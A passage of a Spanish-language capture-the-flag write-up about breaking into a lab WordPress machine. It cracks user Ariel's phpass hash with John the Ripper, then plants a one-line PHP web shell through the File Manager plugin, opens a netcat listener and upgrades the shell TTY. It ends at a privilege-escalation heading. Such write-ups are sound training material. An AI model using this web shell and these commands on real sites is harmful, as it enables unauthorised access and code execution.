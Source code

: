 Por lo que finalmente hemos conseguido el usuario "Ariel" y su contraseña hasheada. Ahora podemos intentar deshashear la contraseña usando la herramienta "john the ripper" simplemente tenemos que copiar y meter el hash en un archivo llamado hash.txt y ejecutar el siguiente comando:

```ruby
john --wordlist=/path/to/wordlist.txt --format=phpass hash.txt
```

En este caso, podriamos usar de wordlist la supuesta "advertencia" que habia en "/WebTestprogress/.advertencia".

Al usar la wordlist con john nos devuelve lo siguiente:

```ruby
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 128/128 SSE2 4x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
NoTeMetasConElGobierno (?)     
1g 0:00:00:00 DONE (2024-08-09 18:32) 16.66g/s 5266p/s 5266c/s 5266C/s NoTeMetasConElG*ConElGobierno..NoTeMeta@ierno
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed.
```

Por lo que finalmente sabemos que la contraseña del wordpress es "NoTeMetasConElGobierno" con usuario "Ariel"

Ya estando en wordpress, vamos a la seccion "añadir plguins", agregamos y activamos el plugin "File Manager". Ahora vamos a la nueva sección del plugin y creamos un ".php" con una reverse shell o que nos permita ejecutar comandos, en mi caso usé el siguiente:

```php
<?php
      system($_GET['cmd']);
?>
```

Ahora solo creamos un archivo en wp-content con nuestra reverse shell(o que nos permita ejecutar comandos) y listo, escuchamos con netcat usando `nc -nlvp 443` y finalmente estamos dentro.

## TRATAMIENTO DE LA TTY

Para hacer el tratamiento de la tty hay que ejecutar los siguientes comandos:

```css
script /dev/null -c bash
(presionamos ctrl+z)
stty raw -echo; fg
	reset xterm
export TERM=xterm && export SHELL=bash
```

## ESCALADA DE PRIVILEGIOS

